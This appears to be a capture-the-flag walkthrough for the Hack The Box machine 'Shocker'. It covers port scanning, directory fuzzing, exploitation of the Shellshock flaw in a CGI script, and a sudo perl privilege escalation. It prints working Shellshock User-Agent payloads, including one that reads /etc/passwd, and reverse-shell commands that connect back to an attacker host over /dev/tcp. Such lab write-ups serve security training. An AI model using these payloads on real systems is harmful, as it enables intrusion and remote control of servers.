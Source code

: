 # Shocker

**Links:** [1](https://www.hackthebox.com/machines/shocker)  [2](https://app.hackthebox.com/machines/Shocker)

**Machine ip:** 10.10.10.56

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.56 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c189963f-1f1f-47e3-8143-3c3590c67d76)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6d921d69-f5a3-4b01-8abf-b2705292468b)

+ Navigate to `http://10.10.10.56/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53721866-1078-4c64-a195-7717114fc1a3)

+ Fuzzing:
```
feroxbuster -u http://10.10.10.56 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3a9ac037-a36f-41a4-9778-b82bdc5dbbc4)

+ Check `/cgi-bin/user.sh`: `curl http://10.10.10.56/cgi-bin/user.sh`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/47df5820-0a25-4802-a8fb-a4a987b0ad8e)

+ [Shellshock vulnerability](https://github.com/opsxcq/exploit-CVE-2014-6271): [CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)
+ `nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bc9402cf-aee0-410f-b78c-9ac7069a0151)

## Gaining Access

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/15545c15-606a-4e45-8555-0d886bd63fc2)

+ Make a request `http://10.10.10.56/cgi-bin/user.sh` and capture the request on burp.
+ Send to repeater, and then trigger.
+ Use `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'` payload on the user-agent.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2d99b17d-fdb0-422b-bbf9-94be92bbb3b9)

Get a revershell: 
+ `nc -lnvp 4444`
+ `() { :;}; /bin/bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/33347aa2-8d52-4ecc-bdd1-eefabc6550f0)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a66c0774-5e34-43b9-a1e5-522fc5dd4399)

**Alternatively**, use `curl`: 
+ `curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh`
+ `nc -lnvp 5555`
```
curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/10.10.14.5/5555 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/998447b4-78ef-40c0-929c-17cfbd01c157)


## Privilege Escalation

+ `sudo -l -l`
+ Check [gtfobins](https://gtfobins.github.io/) for [perl](https://gtfobins.github.io/gtfobins/perl/#sudo)
+ Get root.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c4f85588-6979-435d-b7ef-466ca66b7e4d)


# References & Alternatives
+ https://vvmlist.github.io/#shock
+ https://0xdf.gitlab.io/2021/05/25/htb-shocker.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/shocker-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-shocker/
+ https://infosecwriteups.com/shocker-from-hackthebox-52378519fb5b
+ https://corruptedprotocol.medium.com/shocker-hackthebox-htb-2cdac3cf3562
+ https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-öner
+ https://medium.com/@orhan_yildirim/shocker-hackthebox-write-up-538631df688f
+ https://brcyrr.medium.com/hack-the-box-shocker-602ea7452797
+ https://medium.com/@ismailplt3458/hack-the-box-shocker-machine-oscp-like-solution-aafc898adc65
